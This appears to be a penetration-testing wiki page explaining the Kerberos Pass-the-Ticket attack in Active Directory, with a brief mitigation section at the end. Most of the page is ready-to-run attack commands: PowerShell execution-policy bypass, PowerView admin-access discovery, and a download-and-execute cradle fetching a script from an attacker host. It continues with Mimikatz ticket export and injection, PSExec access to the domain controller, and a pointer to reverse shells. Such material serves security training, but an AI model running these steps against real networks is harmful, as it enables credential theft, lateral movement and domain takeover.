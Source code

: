 # Pass-the-Ticket

Pass the Ticket is a credential theft technique that enables adversaries to use stolen Kerberos tickets to authenticate to resources (e.g, file shares and other computers) as a user without having to compromise that user's password.\
Adversaries often use this technique to move laterally through an organization's network to hunt for opportunities to escalate their privileges or fulfil their mission.&#x20;

#### Methods

* Tickets enumeration
* Capturing Kerberos tickets for valid accounts&#x20;
* Reusing the ticket
* Discovering privileges of the stolen ticket

## Initial enumeration

Check machines within the Active Directory Domain,  where the current user is a local administrator.

```powershell
powershell -ep bypass
. .\PowerView.ps1

Find-LocalAdminAccess

# enter in the session
Enter-PSSession $PREVIOUS_RESULT_COMPUTER
```

Now, check the privilege that we have in the machine with this command:

Copy

```powershell
whoami /all
```

Then, we have to transfer mimikatz.exe or Invoke-Mimikatz.ps1 into target machine.

{% code title="Linux -> Windows Target" %}
```powershell
# into linux
python3 -m http.server 80 

# Download files from windows target
iex (New-Object Net.WebClient).DownloadString('http://$IP/$FILE_NAME')
```
{% endcode %}

<pre class="language-powershell" data-title="Windows -> Windows Target"><code class="lang-powershell"># Start a HTTP File Server (HFS) into a Windows machine with .exe
# https://www.rejetto.com/hfs/

# Download files from windows target
<strong>iex (New-Object Net.WebClient).DownloadString('http://$IP/$FILE_NAME')
</strong></code></pre>

## Get Kerberos tickets

### With Mimikatz

Export all tickets from local memory

{% code title="Invoke-Mimikatz.ps1" %}
```powershell
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```
{% endcode %}

{% code title="mimikatz.exe" %}
```powershell
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export"
```
{% endcode %}

This is the output files:

<figure><img src="../../../.gitbook/assets/image (116).png" alt=""><figcaption></figcaption></figure>

The kerberos ticket is the file within "_krgtgt_" in the name.&#x20;

### Reusing the ticket

In this step, the attacker employs the **Mimikatz** command `kerberos::ptt` to insert the obtained TGT into their own session, resulting in their session taking on the **identity** and **permissions** of the stolen TGT for future access to resources **without knowing the plaintext credentials**.

{% code title="Invoke-Mimikatz.ps1" %}
```powershell
Invoke-Mimikatz -Command '"kerberos::ptt $KIRBI_FILE_NAME"'
```
{% endcode %}

{% code title="mimikatz.exe" %}
```powershell
mimikatz.exe "kerberos::ptt $KIRBI_FILE_NAME"
```
{% endcode %}

The above commands is used to insert the Kerberos Ticket Granting Ticket (TGT) stored in the corresponding .kirbi file into the current session.

To make sure that the right ticket was injected, an adversary can use the “`kerberos::list`” Mimikatz command.

```powershell
mimikatz.exe "kerberos::list"
klist
```

### Discovering privileges of the stolen ticket

#### Domain Controller access check

{% code title="PowerView commands" %}
```powershell
Get-Domain # view the DC address

ls \\$DOMAIN_CONTROLLER_DOMAIN\c$ # check if we have access to DC
PSExec \\$DOMAIN_CONTROLLER_DOMAIN powershell.exe
```
{% endcode %}

If we have the privilege to access into Domain controller we can use:

```
Enter-PSSession $DC_NAME
```

Or create a bind/rev shell into domain controller with NC.

{% content-ref url="../../executive-pt/post-exploitation/shells.md" %}
[shells.md](../../executive-pt/post-exploitation/shells.md)
{% endcontent-ref %}

#### Futher info of stolen account

{% code title="PowerShell" %}
```powershell
net user Alice /domain
```
{% endcode %}







## Mitigation Technique

Effective measures to counter pass-the-hash attacks concentrate on making tickets more difficult to steal and limiting the potential impact of a stolen ticket. One such measure is to utilize Microsoft's Windows Defender Credential Guard. This technology, which was introduced in Windows 10 and Windows Server 2016, leverages virtualization to secure credential storage and provide access only to trusted processes.&#x20;

Another important step is to limit the number of endpoints where users have administrative privileges. This significantly reduces the risk of an attacker using a stolen ticket for lateral movement. It is also important to avoid granting administrative privileges across security boundaries, as this greatly reduces the risk of an attacker using a stolen ticket to escalate their privileges.



